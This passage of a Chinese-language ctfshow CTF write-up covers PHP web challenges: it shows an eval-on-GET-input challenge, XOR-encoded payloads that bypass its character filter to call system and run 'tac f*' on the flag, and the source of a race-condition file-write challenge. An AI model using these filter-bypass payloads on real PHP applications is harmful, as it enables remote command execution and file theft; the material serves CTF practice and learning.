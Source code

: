 ```php
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(preg_match("/[A-Za-z0-9_\%\\|\~\'\,\.\:\@\&\*\+\- ]+/",$code)){
        die("error");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

function get_ctfshow_fl0g(){
    echo file_get_contents("flag.php");
}
```

看hint~

异或可以过

```
?code=("%0c%19%0c%5c%60%60"^"%7f%60%7f%28%05%0d") ("%09%01%03%01%06%02"^"%7d%60%60%21%60%28");
```

预期解是使用中文变量：（其实也是异或啦）

```
?code=$哈="`{{{"^"?<>/";${$哈}[哼](${$哈}[嗯]);&哼=system&嗯=tac f*
```

```
"`{{{" ^ "?<>/";  异或出来的结果是  _GET
```

即构造了：`$_GET[哼]($_GET[嗯])`，然后再传进去就行~

## 149-条件竞争

> 你写的快还是我删的快？

```php
$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}

file_put_contents($_GET['ctf'], $_POST['show']);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}
```
